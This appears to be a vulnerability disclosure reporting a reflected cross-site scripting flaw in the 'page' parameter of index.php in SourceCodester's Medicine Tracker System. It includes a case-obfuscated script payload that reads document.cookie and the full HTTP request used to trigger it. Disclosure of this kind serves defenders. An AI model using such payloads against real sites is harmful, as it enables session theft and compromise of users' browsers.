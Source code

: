 **BUG_Author:**

Rone

**Vendor:**

[SourceCodester](https://vuldb.com/?vendor.sourcecodester)

**Software:**

[Medicine Tracker System in PHP (OOP) and MySQL DB Source Code Free Download | SourceCodester](https://www.sourcecodester.com/php/16308/medicine-tracker-system-php-oop-and-mysql-db-source-code-free-download.html)

**Vulnerability File:**
index.php

**Description:**

A vulnerability has been found in Medicine Tracker System (the affected version is unknown) and classified as problematic. Affected by this vulnerability is an unknown code of the file index.php. The manipulation of the argument with the input value leads to a cross site scripting vulnerability. The CWE definition for the vulnerability is CWE-79. The software does not neutralize or incorrectly neutralizes user-controllable input before it is placed in output that is used as a web page that is served to other users. As an impact it is known to affect integrity. page=1"><ScRiPt>alert(document.cookie)</ScRiPt>

```
GET /php-mts/index.php?page=1"><ScRiPt%20>alert(document.cookie)</ScRiPt> HTTP/1.1
Referer: http://127.0.0.1/php-mts/
Cookie: PHPSESSID=5bbgjmttr2vr0o38hhrad8jfb6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: 127.0.0.1
Connection: Keep-alive
```

![image-20231012000348639](Medicine Tracker System_XSS.assets/image-20231012000348639.png)

















